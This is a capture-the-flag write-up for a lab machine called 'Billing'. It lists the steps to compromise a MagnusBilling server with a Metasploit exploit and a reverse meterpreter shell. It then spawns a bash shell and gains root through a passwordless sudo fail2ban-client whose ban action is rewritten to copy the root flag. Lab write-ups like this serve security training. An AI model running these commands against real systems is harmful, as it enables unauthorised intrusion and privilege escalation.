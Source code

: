 # CTF Writeup: Billing

- Step 1: Enumeration nmap scan & displayed webpage --> MagnusBilling
- Step 2: Searched for CVE's or Metasploit Exploits --> Found Metasploit Exploit
- Step 3: opened metasploit with msfconsole -q and typed the command: "search magnus" --> found exploit
- Step 4: made "use 0", made "show options", selected RHOST = <target_ip>, selected LHOST (listener) as <machine_ip> after that made "run"
- Step 5: meterpreter got through --> made "shell" to create shell and made "python -c 'import pty;pty.spawn("/bin/bash")' to create python shell within target server
- Step 6: checked out which rights I have (no root) --> went to home/magnus and found user.txt flag
- Step 7: made sudo -l to check sudo right's and foundout that "asterisk" (root) can run the fail2ban-client without needing an password "NOPASSWD"
- Step 8: Researched what fail2ban-client is --> Open-Source Software and found an privilege escelation aswell and oriented myself to that.
- Step 9: made "sudo /usr/bin/fail2ban-client" status, to check which blocks are available --> sshd
- Step 10: made "sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban 
"/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"" --> This command saves the root flag within a temp file, but only if an ip address is getting banned.
- Step 11: made "sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1" to ban an ip address --> prompted out "1", so it was successful.
- Step 12: navigated to /tmp directory. made "ls" and found root.txt -> cat root.txt and finished it.


